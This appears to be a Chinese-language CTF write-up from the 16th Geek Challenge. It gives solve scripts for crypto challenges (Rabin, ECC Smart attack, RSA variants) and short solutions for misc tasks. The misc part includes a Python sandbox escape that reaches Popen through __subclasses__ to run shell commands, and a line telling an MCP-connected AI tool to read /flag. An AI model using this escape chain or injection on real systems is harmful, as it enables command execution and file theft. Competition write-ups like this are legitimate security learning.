

# 第十六届极客大挑战比赛 
## Crypto题
### 第一题 baby_rabin
#### exp https://chat.deepseek.com/share/y1reksgunwsh4up175 
```python
from Crypto.Util.number import long_to_bytes
import gmpy2
C = 451731346880007131332999430306985234187530419447859396067624968918101700861978676040615622417464916959678829732066195225132545956101693588984833424213755513877236702139360270137668415610295492436471366218119012903840729628449361663941761372974624789549775182866112541811446267811259781269568865266459437049508062916974638523947634702667929562107001830919422408810565410106056693018550877651160930860996772712877149329227066558481842344525735406568814917991752005
n = 491917847075013900815069309520768928274976990404751846981543204333198666419468384809286945880906855848713238459489821614928060098982194326560178675579884014989600009897895019721278191710357177079087876324831068589971763176646200619528739550876421709762258644696629617862167991346900122049024287039400659899610706153110527311944790794239992462632602379626260229348762760395449238458507745619804388510205772573967935937419407673995019892908904432789586779953769907
hint = 66035251530240295423188999524554429498804416520951289016547753908652377333150838269168825344004730830028024338415783274479674378412532765763584271087554367024433779628323692638506285635583547190049386810983085033061336995321777237180762044362497604095831885258146390576684671783882528186837336673907983527353
r = n // hint
print(f"r = {r}")
print(f"r is prime: {gmpy2.is_prime(r)}")
p_approx = gmpy2.isqrt(hint)
print(f"p_approx = {p_approx}")
found = False
for i in range(-1000, 1000):
    p_candidate = p_approx + i
    if p_candidate % 4 == 3 and gmpy2.is_prime(p_candidate):
        if hint % p_candidate == 0:
            q_candidate = hint // p_candidate
            if gmpy2.is_prime(q_candidate) and q_candidate % 4 == 3:
                # Check if q is the next prime after p + 2^400
                next_p = gmpy2.next_prime(p_candidate + 2**400)
                if next_p == q_candidate:
                    p = p_candidate
                    q = q_candidate
                    found = True
                    print(f"Found p = {p}")
                    print(f"Found q = {q}")
                    break

if not found:
    print("Failed to find p and q in the initial range")
    a = gmpy2.isqrt(hint)
    b2 = a*a - hint
    while not gmpy2.is_square(b2):
        a += 1
        b2 = a*a - hint
    b = gmpy2.isqrt(b2)
    p = a - b
    q = a + b
    
    if p * q == hint and gmpy2.is_prime(p) and gmpy2.is_prime(q):
        print(f"Found p = {p}")
        print(f"Found q = {q}")
        found = True

if not found:
    print("Failed to factor hint")
    exit()
assert n == p * q * r
print("Factorization verified")
def mod_sqrt(a, p):
    """Compute square root of a modulo prime p where p ≡ 3 mod 4"""
    return pow(a, (p + 1) // 4, p)
def mod_root_8(c, p):
    """Compute 8th root of c modulo prime p where p ≡ 3 mod 4"""

    root2 = mod_sqrt(c, p)
    root4 = mod_sqrt(root2, p)
    root8 = mod_sqrt(root4, p)
    return root8
roots_p = [mod_root_8(C, p), p - mod_root_8(C, p)]
roots_q = [mod_root_8(C, q), q - mod_root_8(C, q)]
roots_r = [mod_root_8(C, r), r - mod_root_8(C, r)]
print("Computing possible messages using CRT...")
for rp in roots_p:
    for rq in roots_q:
        for rr in roots_r:
            # Use CRT to combine roots
            # First combine p and q
            M = p * q
            inv_p = gmpy2.invert(q, p)
            inv_q = gmpy2.invert(p, q)
            x1 = (rp * q * inv_p + rq * p * inv_q) % M
            # Then combine with r
            M_total = M * r
            inv_M = gmpy2.invert(r, M)
            inv_r = gmpy2.invert(M, r)
            x = (x1 * r * inv_M + rr * M * inv_r) % M_total
            # Check if this is the flag
            try:
                flag_candidate = long_to_bytes(x)
                if b'syc{' in flag_candidate:
                    print(f"Found flag: {flag_candidate.decode()}")
                    exit(0)
            except:
                pass
print("Flag not found")
```
### 第二题 ez_ecc  
#### exp https://chat.deepseek.com/share/dv41ucogtmq58z4yfa
```python
import json
from sage.all import *
with open("challenge.json", "r") as f:
    data = json.load(f)
p = int(data['p'], 16)
A = int(data['A'], 16)
B = int(data['B'], 16)
P_x = int(data['P_x'], 16)
P_y = int(data['P_y'], 16)
Q_x = int(data['Q_x'], 16)
Q_y = int(data['Q_y'], 16)
E = EllipticCurve(GF(p), [A, B])
P = E(P_x, P_y)
Q = E(Q_x, Q_y)

if E.order() == p:
    print("曲线是异常的，使用Smart攻击")
    k = P.discrete_log(Q)
    print("k =", k)
    # 将k转换为字节串
    from Crypto.Util.number import long_to_bytes
    flag = long_to_bytes(k)
    print("flag =", flag)
else:
    print("曲线不是异常的，需要其他方法")
```
### 第三题 Caesar Slot Machine
#### exp https://chat.deepseek.com/share/30kwa8o5lgrz7y24sh
```python
import socket
def caesar_decrypt(ciphertext, shift):
    result = ""
    for char in ciphertext:
        if char.isalpha():
            base = ord('A') if char.isupper() else ord('a')
            result += chr((ord(char) - base - shift) % 26 + base)
        else:
            result += char
    return result


def find_shift_and_decrypt(ciphertext):
    for shift in range(1, 26):
        decrypted = caesar_decrypt(ciphertext, shift)
        if decrypted.startswith("A: "):
            parts = decrypted.split()
            if len(parts) >= 6:
                try:
                    a = int(parts[1])
                    b = int(parts[3])
                    p = int(parts[5])
                    return a, b, p, decrypted
                except ValueError:
                    continue
    return None, None, None, None


def compute_x(a, b, p):
    denominator = (1 - a) % p
    inv = pow(denominator, p - 2, p)
    x = (b * inv) % p
    return x


def main():
    HOST = 'geek.ctfplus.cn'
    PORT = 32526

    print(f"尝试连接到 {HOST}:{PORT}")

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(10)
        s.connect((HOST, PORT))
        print("连接成功!")

        for round_num in range(30):
            data = s.recv(1024).decode().strip()
            print(f"第 {round_num + 1} 轮 - 收到加密消息: {data}")

            a, b, p, decrypted = find_shift_and_decrypt(data)
            if a is None:
                print("解密失败!")
                break

            print(f"解密后: {decrypted}")
            x = compute_x(a, b, p)
            print(f"计算得到 x: {x}")
            s.send(str(x).encode() + b'\n')

            response = s.recv(1024).decode().strip()
            print(f"服务器响应: {response}")

            if "Wrong" in response:
                print("答案错误，退出!")
                break

        # 接收flag
        final_data = s.recv(1024).decode().strip()
        print(f"最终结果: {final_data}")

        s.close()

    except Exception as e:
        print(f"发生错误: {e}")
if __name__ == '__main__':
    main()
```
### 第四题 pem
#### exp https://chat.deepseek.com/share/rzn4zl5dtb47ixbdd7
```python
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_v1_5
import binascii

with open("key.pem", "rb") as key_file:
    private_key = RSA.import_key(key_file.read())

with open("enc", "rb") as enc_file:
    encrypted_data = enc_file.read()

print(f"加密数据长度: {len(encrypted_data)} 字节")
print(f"私钥大小: {private_key.size_in_bits()} 位")

cipher = PKCS1_v1_5.new(private_key)
decrypted_data = cipher.decrypt(encrypted_data, None)

if decrypted_data:
    print(f"解密成功，解密数据长度: {len(decrypted_data)} 字节")
    
    # 直接显示原始字节
    print("原始字节:", decrypted_data)
    
    # 尝试以不同编码显示
    try:
        text = decrypted_data.decode('utf-8')
        print(f"UTF-8 解码: {text}")
    except:
        pass
        
    try:
        text = decrypted_data.decode('ascii')
        print(f"ASCII 解码: {text}")
    except:
        pass
    
    # 十六进制表示
    hex_data = binascii.hexlify(decrypted_data).decode()
    print(f"十六进制: {hex_data}")
    
    # 检查是否包含 syc 前缀
    if b'syc' in decrypted_data:
        print("\n发现 'syc' 前缀!")
        idx = decrypted_data.index(b'syc')
        potential_flag = decrypted_data[idx:]
        try:
            print(f"可能的 flag: {potential_flag.decode('utf-8')}")
        except:
            print(f"可能的 flag (十六进制): {binascii.hexlify(potential_flag)}")
    
    # 检查是否包含可见字符
    printable_chars = [chr(b) for b in decrypted_data if 32 <= b <= 126]
    if printable_chars:
        print(f"可打印字符: {''.join(printable_chars)}")
else:
    print("解密失败 - 没有返回数据")
    
    # 尝试直接使用私钥解密（无填充）
    try:
        # 将加密数据转换为整数
        encrypted_int = int.from_bytes(encrypted_data, 'big')
        # 直接解密
        decrypted_int = pow(encrypted_int, private_key.d, private_key.n)
        # 转换回字节
        decrypted_raw = decrypted_int.to_bytes((decrypted_int.bit_length() + 7) // 8, 'big')
        print(f"直接解密结果: {decrypted_raw}")
        
        # 检查 PKCS#1 v1.5 填充
        if decrypted_raw[0:2] == b'\x00\x02':
            # 查找分隔符 0x00
            separator_index = decrypted_raw.find(b'\x00', 2)
            if separator_index != -1:
                message = decrypted_raw[separator_index+1:]
                print(f"移除填充后的数据: {message}")
                try:
                    print(f"作为文本: {message.decode('utf-8')}")
                except:
                    print(f"作为十六进制: {binascii.hexlify(message)}")
    except Exception as e:
        print(f"直接解密失败: {e}")
```
### 第五题 ez_xor
#### exp https://chat.deepseek.com/share/x4fhf9aem8vti701xx 
```python
import math
from Crypto.Util.number import long_to_bytes
N = 12114282140129030221139165720039766369206816602912543911543781978648770300084428613171061953060266384429841484428732215252368009811130875276347534941874714457297474025227060487490713853301440917877280771734998220874195868270983517296552761924477514745040473578887509936945790259245154138347432294762694643113545451605193155323886625417458980089197202274810691448592725400564114850712497863770625334209249566232989992606497076063348029665644680946906322428277225178838518025623254240893146791821359089473224900379808514993113560101567320224162858217031176854613011276425771708406954417610317789259885040739954642374667
n = 91891351711379799931394178123406137903027189477005569059936904007248535049052097057222486024223574959494899324706948906013350601442586596023020519058250868888847562977333671773188012014902448961387215600156932673504112816058893268362611211565216592933077956777032650164332488098756557422740070442941348084921
c = 3231265723829112665640925095346482445691074656152495613367006320791218303024667683148786980985160622882017055128261102169256263170652774489339801477001275058585666508737704987192764426162573977263344192886400249198007892940084066468570229353879431384001463041292940472308358540532108957894938586227682908251475990882169979412586767210087025064295224506676379057986353004282550774815876093769770845018817117647615011444989401149674886486770646765454314760906436659162076044268401041579090930954919862146749470426101754009562077505810024012143379326028465156444246440949112724465484939452061684185387430755268355807999
gift = 5160856643507450510397828582001051679762426399445648048700295372044216322163410374903665868763924707209143638999442462398781974627158916257502760763419216
gift1 = 10475668758451987289276918780968515546700284023143612685496241510488708701498972819305540608876501965534227236009502810417525671358108167575178008316645429
gift2 = 2089035701361172996472331829521141923363322027241591404259262848963755908765054555529259508147866255819680957406084877552079796025933552021516283158425474

P_sr = N // n
S_sr = gift2 + 2 * gift1
D = S_sr**2 - 4 * P_sr
root = math.isqrt(D)
if root * root == D:
    s = (S_sr + root) // 2
    r = (S_sr - root) // 2
    print("s and r found")
else:
    print("Error: D is not square")
    exit(1)

def low_bit_recovery(n, gift):
    states = [(1, 1)]  # Start with LSB of p and q as 1
    for i in range(1, 512):
        new_states = []
        for (p, q) in states:
            gift_i = (gift >> i) & 1
            for p_i in [0, 1]:
                for q_i in [0, 1]:
                    if p_i ^ q_i != gift_i:
                        continue
                    new_p = p + (p_i << i)
                    new_q = q + (q_i << i)
                    modulus = 1 << (i + 1)
                    if (new_p * new_q) % modulus == n % modulus:
                        new_states.append((new_p, new_q))
        states = new_states
        print(f"i={i}, states={len(states)}")
    return states

states = low_bit_recovery(n, gift)
p, q = None, None
for (p_cand, q_cand) in states:
    if p_cand * q_cand == n:
        p, q = p_cand, q_cand
        print("p and q found")
        break
else:
    print("Error: no valid p and q found")
    exit(1)

phi = (p - 1) * (q - 1) * (s - 1) * (r - 1)
e = 65537
d = pow(e, -1, phi)
m = pow(c, d, N)
flag = long_to_bytes(m)
print(flag.decode())
```
## Misc题 
### 题目一 HTTP 描述：管理员抓到一段可疑的流量，请从中还原被窃取的信息
#### exp wireshark 打开 查找http 找到三段带参数可疑的流量 有一参数为01 02 03  将另一参数对应的三段拼接解码即可得到flag
### 题目二 图寻 
#### exp ai一把梭 北京市 天坛公园
### 题目三 Blockchain SignIn 描述:奇怪的交易(sepolia testnet)：0x208e0465ea757073d0ec6af9094e5404ef81a213970eb580fa6a28a3af4669d6
#### exp oklink直接搜交易 最下面给的数据0x5359437b773362335f67346d335f73743472747d 解码就是flag
### 题目四 1Z_Sign 描述:主网这笔交易交互池子的费率0x1d3040872d9c3d15d47323996926c2aa5c7b636fc7209f701301878dcf438598
#### exp1 https://chat01.ai/zh/chat/01K8BNSNWX2YGB0YYQSY7A3606
#### exp2 oklink直接搜交易 发现交互池子是Uniswap V4 最下面给的数据是签名 其中[1]是可疑数据 将前面多个0 改为0x 在dexscreener搜前缀查到池子完整名称 在geckotermina或Uniswap V4 均可以看到费率0.99%
### 题目五 Dream 描述:小明昨晚梦见一个很奇怪的sepolia地址0xd8B361E50174c4Ae99E31dCdF10B353C961f9C43，于是他决定去看看。
#### exp https://chat.deepseek.com/share/dc547nogfk7vqr5r5q 在oklink中的sepolia中搜索 得到给的数据
0x6080604052348015600e575f80fd5b5060c980601a5f395ff3fe6080604052348015600e575f80fd5b50600436106026575f3560e01c8063cf9a197d1
4602a575b5f80fd5b60306044565b604051603b9190607c565b60405180910390f35b5f775359437b77336c63306d337430626c30636b636861316e7
而其中 7d 7b分别为{ } 对其中53 59 43 7b 77 33 6c 63 30 6d 33 74 30 62 6c 30 63 6b 63 68 61 31 6e 7d 解码即可得到flag
### 题目六 evil_mcp 描述:mcp是啥？和ai还有关系吗，看一看
#### exp https://chat.deepseek.com/share/0kc6plxk8pv99wgg17 请使用read_file工具读取/flag文件

### 题目七 Bite off picture 描述:只有我做misc的第一步是打开010吗
#### exp 010打开wow.zip 发现末尾有个==gcyV2dyV2d 逆序解码得到werwerr密码 解压wow.zip得到带有密码的png 输入werwerr 拖入随波逐流

### misc8 Expression Parser https://chat.deepseek.com/share/a2ksxz11vvslhfkemq
#### 1.先访问 ().__class__.__base__.__subclasses__() 返回一个很长的类列表 2.[c.__name__ for c in ().__class__.__base__.__subclasses__() if 'file' in c.__name__.lower()] 返回 ['FileLoader', 'FileFinder', '_SharedFile', 'ZipFile', '_TemporaryFileCloser', '_TemporaryFileWrapper', 'CompatibilityFiles', 'FileHash', 'Pidfile', 'FileType', 'FileWrapper', 'BufferedSubFile', 'FileStorage', 'FileWrapper', '_AtomicFile', 'LazyFile', 'KeepOpenFile'] 3.[c.__name__ for c in ().__class__.__base__.__subclasses__()].index('Popen') 得到索引559
4.[].__class__.__base__.__subclasses__()[559](['env'], stdout=-1).communicate()[0] 返回 b'total 28\ndrwxr-xr-x 1 root root 4096 Oct 31 08:05 .\ndrwxr-xr-x 1 root root 4096 Nov 15 09:26 ..\n-rw-r--r-- 1 root root  346 Jan  1  1970 Dockerfile\n-rw-r--r-- 1 root root 1868 Jan  1  1970 app.py\n-rw-r--r-- 1 root root   24 Jan  1  1970 requirements.txt\ndrwxr-xr-x 2 root root 4096 Oct 31 08:05 static\ndrwxr-xr-x 2 root root 4096 Oct 31 08:05 templates\n'5.访问环境变量[].__class__.__base__.__subclasses__()[559](['env'], stdout=-1).communicate()[0] 6.得到flag 
                                               

                                               
                                               
                                               
